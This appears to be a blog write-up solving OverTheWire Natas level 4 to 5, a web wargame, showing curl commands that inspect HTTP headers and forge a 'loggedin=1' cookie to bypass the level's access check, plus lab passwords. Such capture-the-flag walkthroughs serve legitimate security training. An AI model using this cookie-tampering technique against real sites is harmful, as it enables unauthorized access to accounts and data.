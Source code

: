 ```yaml
---
title: Overthewire Natas Level 4 -> Level 5
date: '2022-04-20 22:35:00'
author: Michael
categories: [overthewire, overthewire-natas]
tags: [overthewire, natas, web]
---
```


Solution for the Overthewire.org [Natas level 4 -> Level 5](https://overthewire.org/wargames/natas/natas5.html){:target="\_blank"}

## Description

Username: natas5  

URL:      http://natas5.natas.labs.overthewire.org

---

## Solution

Visit the url `http://natas5.natas.labs.overthewire.org` in the browser and we get a prompt for login.

Use the username `natas5` and the password obtained from the previous challenge.


Once logged in we get an `Access disallowed` message.

![Natas 5 home page](/assets/img/overthewire/natas/natas5_home.png)

Checking the source code does not give any new information.

In the previous challenge we looked at the `HTTP headers` so let's check them again.

Using `curl --head --user <USERNAME>:<PASSWORD> --url <URL>` syntax we can view the headers.

```
$ curl --head --user natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq --url http://nata
s5.natas.labs.overthewire.org

HTTP/1.1 200 OK
Date: Wed, 20 Apr 2022 23:55:42 GMT
Server: Apache/2.4.10 (Debian)
Set-Cookie: loggedin=0
Content-Type: text/html; charset=UTF-8

```

We can see in the headers that there is a cookie being set.  
`Set-Cookie: loggedin=0`

Let's set `loggedin` to 1 and see what differences occur.
We can passed cookie data using the `--cookie` option in curl.

```
curl --user natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq --cookie "loggedin=1" --url http:/
/natas5.natas.labs.overthewire.org/
```

The response we get tells us Access granted and the password.
```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas5", "pass": "iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq" };</script></head>
<body>
<h1>natas5</h1>
<div id="content">
Access granted. The password for natas6 is aGoY4q**************************</div>
</body>
</html>
```

The password for the next challenge is `aGoY4q**************************`.